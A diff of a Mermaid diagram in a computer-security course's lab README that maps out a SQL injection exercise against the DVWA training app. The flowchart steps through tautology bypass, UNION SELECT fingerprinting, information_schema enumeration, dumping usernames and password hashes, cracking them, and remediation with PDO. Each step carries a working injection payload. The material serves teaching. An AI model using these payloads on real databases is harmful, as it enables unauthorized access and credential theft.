

The diagram in Labs/Lab3/README.md (OFTGNOV/Computer-Security-Labs), drawn with Mermaid (dark theme) before and after one commit. The commit also changed other lines of this file and 5 other files, not shown here.

````diff
--- a/Labs/Lab3/README.md
+++ b/Labs/Lab3/README.md
@@ -67,25 +144,26 @@
 ```mermaid
 flowchart TD
-    subgraph Recon["Reconnaissance & Baseline"]
-        A["Set DVWA Security to Low"] --> B["Step 1: Test valid ID (e.g. 1, 2)<br/>Analyze URL query parameter"]
+    subgraph Prep["Phase 0: Environment & Baseline"]
+        P1["Deploy DVWA & Click<br/>Create / Reset Database"] --> P2["Login (admin / password)<br/>Set DVWA Security = Low"]
+        P2 --> S1["Step 1: Parameter Discovery<br/>Test User ID = 1, 2, 3, 4 via Form & URL"]
     end
 
-    subgraph Boolean["Tautology & Logic Bypass"]
-        B --> C["Step 2: Boolean Bypass<br/>%' or '1'='1'"]
+    subgraph Tautology["Phase 1: Authentication / Filter Bypass"]
+        S1 --> S2["Step 2: Boolean Tautology<br/>%' or '0'='0  (or %' or '1'='1)"]
     end
 
-    subgraph Union["UNION Database Enumeration"]
-        C --> D["Step 3: DB Version Fingerprint<br/>%' or 0=0 union select null, version() #"]
-        D --> E["Step 4: DB Current User<br/>%' or 0=0 union select null, user() #"]
-        E --> F["Step 5: Enumerate All Tables<br/>...from information_schema.tables #"]
-        F --> G["Step 6: Filter User Tables<br/>...where table_name like 'user%'#"]
+    subgraph Fingerprint["Phase 2: UNION SELECT Fingerprinting"]
+        S2 --> S3["Step 3: Database Engine Version<br/>%' or 0=0 union select null, version() #"]
+        S3 --> S4["Step 4: Active Database User<br/>%' or 0=0 union select null, user() #"]
     end
 
-    subgraph Exfil["Data Exfiltration"]
-        G --> H["Step 7: Dump Accounts & Hashes<br/>concat(first_name,0x0a,last_name,0x0a,user,0x0a,password)"]
+    subgraph SchemaEnum["Phase 3: information_schema Enumeration"]
+        S4 --> S5["Step 5: List All Tables (Suppress Rows with 1=0)<br/>%' and 1=0 union select null, table_name from information_schema.tables #"]
+        S5 --> S6["Step 6: Filter User Tables<br/>...where table_name like 'user%'#"]
     end
 
-    Recon --> Boolean
-    Boolean --> Union
-    Union --> Exfil
+    subgraph Exfil["Phase 4: Credential Exfiltration & Remediation"]
+        S6 --> S7["Step 7: Dump Users & MD5 Hashes<br/>concat(first_name,0x0a,last_name,0x0a,user,0x0a,password)"]
+        S7 --> S8["Bonus & Defense:<br/>Crack MD5s + Refactor PHP with PDO"]
+    end
 ```
````
